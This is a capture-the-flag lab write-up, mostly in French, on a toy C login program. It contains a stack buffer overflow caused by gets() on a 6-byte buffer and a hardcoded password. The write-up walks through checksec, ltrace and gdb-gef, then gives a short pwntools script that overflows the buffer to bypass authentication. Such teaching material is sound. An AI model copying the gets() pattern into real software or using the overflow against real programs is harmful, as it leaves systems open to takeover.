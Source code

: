 Ici on a un `login.c` qu'on va compiler


```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    char password[6];
    int authorised = 0;

    printf("Enter admin password: \n");
    gets(password);

    if(strcmp(password, "pass") == 0)
    {
        printf("Correct Password!\n");
        authorised = 1;
    }
    else
    {
        printf("Incorrect Password!\n");
    }

    if(authorised)
    {
        printf("Successfully logged in as Admin (authorised=%d) :)\n", authorised);
    }else{
		printf("Failed to log in as Admin (authorised=%d) :(\n", authorised);
	}

    return 0;
}

```

### Analysons
Ce program initie une variable char avec un maximum de `6` caracteres.
Ensuite initie une variable `authorised` a 	`0`. Puis demande d'entrer un mot de passe. si tu entre `pass` c'est correct et tu sera logged en tant que admin. sino non tu seras pas logged.

```sh
# checksec --file=login 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.11/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.11.1 --> 4.12.0).
    Update with: $ pip install -U pwntools
[*] '/home/blo/CTFs/Jeopardy/Pwn/login'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

Je vais lancer `ltrace` sur ce programme.

```sh
─# ltrace ./login 
__libc_start_main(0x80490ad, 1, 0xffa6efd4, 0 <unfinished ...>
puts("Enter admin password: "Enter admin password: 
)                   = 23
gets(0xffa6eef6, 0, 19, 0x80491adaaa
)               = 0xffa6eef6
strcmp("aaa", "pass")                            = -1
puts("Incorrect Password!"Incorrect Password!
)                      = 20
printf("Failed to log in as Admin (autho"..., 0Failed to log in as Admin (authorised=0) :(
) = 44
+++ exited (status 0) +++
```
 Dans cet output, lorsque je rentre un mot de passe quelconque. je recois une comparaison de mon string et le `pass` qui est le vrai mot de passe

- *GDB-gef*

```sh
gef➤  file login
Reading symbols from login...
(No debugging symbols found in login)
gef➤  info functions 
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  strcmp@plt
0x08049040  __libc_start_main@plt
0x08049050  printf@plt
0x08049060  gets@plt
0x08049070  puts@plt
0x08049080  _start
0x080490ad  __wrap_main
0x080490c0  _dl_relocate_static_pie
0x080490d0  __x86.get_pc_thunk.bx
0x080490e0  deregister_tm_clones
0x08049120  register_tm_clones
0x08049160  __do_global_dtors_aux
0x08049190  frame_dummy
0x08049196  main
0x08049264  _fini
gef➤  
```

Ok on peux dissasemble la functionns `main`

```sh

0x080491e9 <+83>:    call   0x8049030 <strcmp@plt>
   0x080491ee <+88>:    add    esp,0x10
   0x080491f1 <+91>:    test   eax,eax
   0x080491f3 <+93>:    jne    0x8049210 <main+122>
   0x080491f5 <+95>:    sub    esp,0xc
   0x080491f8 <+98>:    lea    eax,[ebx-0x1fd0]
   0x080491fe <+104>:   push   eax
   0x080491ff <+105>:   call   0x8049070 <puts@plt>
   0x08049204 <+110>:   add    esp,0x10
   0x08049207 <+113>:   mov    DWORD PTR [ebp-0xc],0x1
   0x0804920e <+120>:   jmp    0x8049222 <main+140>
   0x08049210 <+122>:   sub    esp,0xc
   0x08049213 <+125>:   lea    eax,[ebx-0x1fbe]
   0x08049219 <+131>:   push   eax
   0x0804921a <+132>:   call   0x8049070 <puts@plt>
   0x0804921f <+137>:   add    esp,0x10
   0x08049222 <+140>:   cmp    DWORD PTR [ebp-0xc],0x0
   0x08049226 <+144>:   je     0x804923f <main+169>
   0x08049228 <+146>:   sub    esp,0x8
   0x0804922b <+149>:   push   DWORD PTR [ebp-0xc]
   0x0804922e <+152>:   lea    eax,[ebx-0x1fa8]
   0x08049234 <+158>:   push   eax
   0x08049235 <+159>:   call   0x8049050 <printf@plt>
   0x0804923a <+164>:   add    esp,0x10
   0x0804923d <+167>:   jmp    0x8049254 <main+190>


```

c'est comme le code deja vue sur ghidra alors.
j'appercois ici une comparaison `0x08049222 <+140>:   cmp    DWORD PTR [ebp-0xc],0x0`

Je vais y mettre un breakpoint ici et lancer le programme

```sh
gef➤  b *main+140
Breakpoint 1 at 0x8049222
gef➤  run
Starting program: /home/blo/CTFs/Jeopardy/Pwn/login 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter admin password: 
aa
Incorrect Password!

Breakpoint 1, 0x08049222 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049219 <main+131>       push   eax
    0x804921a <main+132>       call   0x8049070 <puts@plt>
    0x804921f <main+137>       add    esp, 0x10
 →  0x8049222 <main+140>       cmp    DWORD PTR [ebp-0xc], 0x0
    0x8049226 <main+144>       je     0x804923f <main+169>
    0x8049228 <main+146>       sub    esp, 0x8
    0x804922b <main+149>       push   DWORD PTR [ebp-0xc]
    0x804922e <main+152>       lea    eax, [ebx-0x1fa8]
    0x8049234 <main+158>       push   eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "login", stopped 0x8049222 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────

```

Dans cet output on voit que le `cmp` compare la variable a 0x0 qui est `0`. si c'est pas le cas de continuer le code
affichons la valeur du variable du variable
```sh
gef➤  x $ebp - 0xc
0xffffd29c:     0x00000000
```

Tous des 0000, alors et si je la modifie avec `set`

```sh
gef➤  set *0xffffd29c = 1
gef➤  x $ebp - 0xc
0xffffd29c:     0x00000001
gef➤  
```
Ici on constate bien un changement des 0 a 1, et si nous continuons on aura alors une autorisation dans le script

```c
gef➤  c
Continuing.
Successfully logged in as Admin (authorised=1) :)
[Inferior 1 (process 207821) exited normally]
gef➤ 
```

Ici il faut savoir que je viens de modifier une variable local du program. dans ce ligne 

```c
    char password[6];
    int authorised = 0;
```
On sait qu'ici si la valeur de authorized est egal a 1
```c
        printf("Correct Password!\n");
        authorised = 1;
```

Now i will create a pwntools script to do that automatically

```
#!/usr/bin/python3


from pwn import *

p = process("./login")
p.sendlineafter(b'Enter admin password:', b'AAAAAAAAAAA')
var2 = p.recvall().decode()
print(var2)


p.close()

```

et quand je l'execute

```sh
└─# python3 exp_login.py
[+] Starting local process './login': pid 223294
[+] Receiving all data: Done (81B)
[*] Process './login' stopped with exit code -11 (SIGSEGV) (pid 223294)
 
Incorrect Password!
Successfully logged in as Admin (authorised=1094795585) :)
```